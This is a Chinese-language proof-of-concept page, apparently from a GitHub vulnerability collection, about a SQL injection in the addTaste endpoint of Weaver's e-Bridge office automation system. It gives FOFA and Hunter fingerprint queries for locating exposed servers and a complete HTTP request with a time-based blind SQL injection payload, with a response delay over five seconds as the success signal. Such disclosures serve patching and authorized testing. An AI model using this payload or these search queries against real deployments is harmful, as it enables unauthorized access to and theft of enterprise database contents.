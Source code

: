 ## 泛微云桥 e-Bridge addTaste接口SQL注入漏洞

e-Bridge 提供了一套全面的办公自动化工具，包括文档管理、流程管理、协同办公、知识管理、移动办公等功能。它的核心理念是将企业内部的各种业务流程数字化，并通过云端技术实现跨部门、跨地域的协同办公和信息共享。该系统 addTaste接口存在SQL注入漏洞，通过此漏洞攻击者可获取企业数据库敏感数据。


## fofa
```
app="泛微-云桥e-Bridge"
```
## hunter
```
app.name="泛微云桥 e-Bridge OA"
```

## poc
```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(9-(IF(18015%3e3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: */*
Cookie: EBRIDGE_JSESSIONID=CAE1276AE2279FD98B96C54DE624CD18; sl-session=BmCjG8ZweGWzoSGpQ1QgQg==; EBRIDGE_JSESSIONID=21D2D790531AD7941D060B411FABDC10
Accept-Encoding: gzip
SL-CE-SUID: 25
```
延迟时间大于5秒

![0369e1c147602f35b76105a4f2aebd91](../../images/0aee421c-131e-4a03-b2d9-c046abdb27f2.png)
